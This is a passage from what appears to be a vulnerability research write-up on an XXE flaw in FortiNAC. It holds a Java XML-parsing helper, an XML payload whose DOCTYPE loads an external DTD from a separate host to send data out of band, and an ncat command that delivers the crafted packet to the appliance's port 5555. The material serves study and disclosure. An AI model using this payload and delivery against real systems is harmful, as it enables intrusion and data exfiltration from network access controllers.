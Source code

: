```java
	private static void checkXml(String xml) throws Exception {
		final StringReader reader = new StringReader(xml);
		final InputSource source = new InputSource(reader);
		final DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
		final DocumentBuilder builder = factory.newDocumentBuilder();
		final Document doc = builder.parse(source);
		doc.getDocumentElement().normalize();
		String commandName = getXmlValue(doc, "commandName");
		if (commandName != null) {
			System.out.println(commandName.trim().toString());
		}
		final String[] tmp = getXmlValues(doc, "arg");
		if (tmp != null) {
			for(int i = 0; i < tmp.length; ++i)
				System.out.println(tmp[i]);
		}
	}

}
```

You could now provide an arbitrary `text.xml` file and running this code will give you an output file `test_packet`. This then could be directly delivered to the TCP port 5555 via `ncat --ssl`.

Let's test the following XXE primitive, i.e. we build a `test.xml` with the following content:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://10.137.0.16:1337/parameterEntity_oob.dtd">
<data>&send;</data>
```

After running our `BuildPacket` program on it, the `test_packet` file is delivered to the FortiNAC instance via `ncat --ssl 10.137.0.34 5555 < test_packet`.

![fortinacXXE.png](/assets/images/fortinac/fortinacXXE.png)
